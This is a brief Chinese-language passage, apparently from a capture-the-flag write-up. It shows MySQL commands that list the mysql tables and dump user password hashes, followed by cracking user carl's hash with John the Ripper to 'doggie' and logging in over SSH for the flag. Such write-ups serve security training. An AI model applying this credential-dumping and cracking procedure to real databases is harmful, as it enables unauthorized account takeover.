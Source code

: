 
#### 查询`mysql`库中的表

```sql file:查询msql库中的表
mysql> show tables;
+---------------------------+
| Tables_in_mysql           |
+---------------------------+
| columns_priv              |
| db                        |
| ...                       |
| user                      |
+---------------------------+
```

#### 查询用户名和秘密的hash值

```sql file:user_and_auth
mysql> select * from user;

mysql> select User, authentication_string from user;
+------------------+-------------------------------------------+
| User             | authentication_string                     |
+------------------+-------------------------------------------+
| root             |                                           |
| mysql.session    | *THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE |
| mysql.sys        | *THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE |
| debian-sys-maint | *D9C95B328FE46FFAE1A55A2DE5719A8681B2F79E |
| root             | *2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19 |
| carl             | *EA031893AA21444B170FC2162A56978B8CEECE18 |
+------------------+-------------------------------------------+
6 rows in set (0.00 sec)
```

#### 破解hash
```bash file:john
john  hash.txt 

...

doggie           (carl)
```

然后登陆`ssh`,并获取到`flag`...